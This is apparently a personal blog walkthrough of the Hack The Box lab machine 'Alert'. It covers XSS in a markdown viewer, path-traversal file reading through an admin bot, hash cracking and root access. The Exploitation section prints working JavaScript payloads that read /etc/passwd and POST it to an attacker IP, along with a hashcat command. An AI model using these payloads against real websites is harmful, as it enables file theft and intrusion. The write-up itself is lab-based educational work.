 ```yaml
---
title: "Alert Walkthrough(Hack The Box)"
date: 2025-03-22
draft: false 
description: "a description"
tags: ["Easy", "Linux", "Hack The Box", "Hacking", "Web", "Walkthrough"]
---
```


## Reconnaissance & Enumeration
- Started with a Nmap scan, revealing open ports: 22, 80.
![Pasted image 20241218005036.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241218005036.png?raw=true)
- From the scan results I can also see `12227` port open which is also interesting.
- The scan results showed that Apache2 was hosting the website.
- The website featured a markdown reader page, The Basic functionality of this website is, get's markdown file from the user and then reads the contents of the particular file for displaying it's contents on the website.
- This website also included a share option for the rendered content. Again, it also has a simple `contact form`
- Now it should be obivious that this website uses HTML and JavaScript to render the contents like any other site on the internet
![obivious](https://media1.tenor.com/m/jc-G9cs4QVAAAAAC/station-19-maya-bishop.gif)
- I uploaded a `.md` file with JavaScript snippet init for testing, below were the contents of my md file  
![Pasted image 20241218005523.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241218005523.png?raw=true)
- As expected the contents were rendered and loaded like this
![Pasted image 20241218005550.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241218005550.png?raw=true)
- This is quite bad. It can execute arbitrary code as it renders the contents

## Exploitation
- Also another functionality in this website is pretty straight forward, where in `contact form` whatever link is filled and sent seems to be clicked by an admin. 
- We can easily get the admin's cookie by making a `.md` file with malicious payload and by sharing the `.md` file link using the share option to the admin through the contact form. The admin will eventually click the link and it will make the code to execute on his browser potentially sending the cookie to us(Attacker). 
- More dangerously we could also read arbitrary files using the `message.php` 
- So to exploit this LFI vulnerability I tried this payload and opened a nc on other side. 


```js
<script>
fetch("http://alert.htb/messages.php?file=/etc/passwd").then(response => response.text())
  .then(data => fetch("http://10.10.14.12:6001", {
      method: "POST",
      body: data
  }));
   
</script>
```
- To trigger this payload, View it and use the share option and get the link, share it to the dumb admin via contact form.
![dumb](https://media1.tenor.com/m/szyfm5XeQmAAAAAC/life.gif)
- After many tries I got this correct I modified the payload accordingly to read the target file 

```js
<script>
fetch("http://alert.htb/messages.php?file=../../../../../../etc/passwd").then(response => response.text())
  .then(data => fetch("http://10.10.14.12:6001", {
      method: "POST",
      body: data
  }));
   
</script>
```
![Pasted image 20241218010840.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241218010840.png?raw=true)
- Found couple of users. The configs for apache2 websites generally resides at `/etc/apache2/sites-available/000-default.conf` I learnt this from enumerating my own machine.
![lies-within-you](https://media1.tenor.com/m/fG6zxAnLtWsAAAAC/vegito-db.gif)
![Pasted image 20241218011112.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241218011112.png?raw=true)
- After I modified the original payload to read this configuration file and  I got the output.
![Pasted image 20241218011242.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241218011242.png?raw=true)
- Got the `.htpasswd` location. Usually this file contains the passwords or hashes for apache2.
- Within that file, password hash for user `albert` was there  
![Pasted image 20241218011625.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241218011625.png?raw=true)
- Let's crack the hash I used hashcat to crack this hash 
```bash
hashcat hash.txt  /usr/share/wordlists/rockyou.txt -m 1600 --username
```
- Here I specified module `1600` to crack apache type hash and with as `albert` username is presented with the hash we have to specify `--username` flag
![Pasted image 20241218012743.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241218012743.png?raw=true)
- Now I can use ssh to login as user `albert`
- I got the {{< keyword >}} User flag {{< /keyword >}}

{{< alert icon="circle-info" >}} Sorry I accidently nuked the user flag image {{< /alert >}} 
## Privilege Escalation
- General SUID, SGID, Capabilities didn't had anything promising
- But anyway there was a internal web service running on port 80 `ss -tunlp` so I tunneled it to my machine via ssh on port 2000.
```
ssh -L 2000:localhost:8080 albert@alert.Hack The Box
```
![Pasted image 20241218014520.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241218014520.png?raw=true)
- The web service name is litterely  `websitemonitor` which tracks and monitor the websites like `alert.htb`
- I found the website's directory location at `/opt/websitemonitor`
- The configuration files for this website are stored within `/config`
![Pasted image 20241218020002.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241218020002.png?raw=true)
- The the web root folder of this website has root privileges and Albert also have access to modify it.
- So to escalate my privileges I changed the file to a reverseshell.
![Pasted image 20241218020421.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241218020421.png?raw=true)
- Eventually secured {{< keyword >}} Root flag {{< /keyword >}}
![Pasted image 20241218020525.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241218020525.png?raw=true)

![summary](https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExZzgzZzA3MzJyd3M3c3p1NjgzNW53cXZubnA2NW94ZWNncnF6NXQzYSZlcD12MV9naWZzX3NlYXJjaCZjdD1n/j5rIZnN3n3i19hxx8T/giphy.gif)
## Summary

The "Alert" box was approached with an initial **reconnaissance** phase where an nmap scan revealed three open ports: SSH (port 22) and a web server (port 80). The web server was identified as running Apache2 and hosting a Markdown reader page.

During the **enumeration** phase, it was discovered that the Markdown reader could execute code embedded within the Markdown content. Additionally, a contact form was found to be exploitable because the administrator would click on links sent through it without analyzing them, suggesting a potential **Local File Inclusion (LFI)** vulnerability. This LFI was exploited by crafting a payload and sending it to the admin via the contact form. This allowed for the discovery of user information and the location of the Apache2 configuration file, which contained the path to the `.htpasswd` file. The password hash for the user `albert` was found within this file.

The **exploitation** phase also involved cracking `albert`'s password hash using `hashcat`. The cracked password enabled successful SSH login, granting initial user access and the user flag.

For **privilege escalation**, an internal web service named "websitemonitor" was discovered running on port 8080. This port was tunneled to the attacker's machine via SSH. The configuration files for "websitemonitor," including the web root, were located in `/opt/websitemonitor/config`. As the user `albert` and root had permissions to modify files in the web directory,I replaced a file with a reverse shell, leading to root access and the acquisition of the root flag.

{{< typeit >}} This is a small and straightforward walkthrough for the box Alert, I hope you liked this if so kindly check my other posts too. Thank you, see you again {{< /typeit >}}

![bye](https://media.tenor.com/RlCHjOKEpaMAAAAi/rabbit-animal.gif)

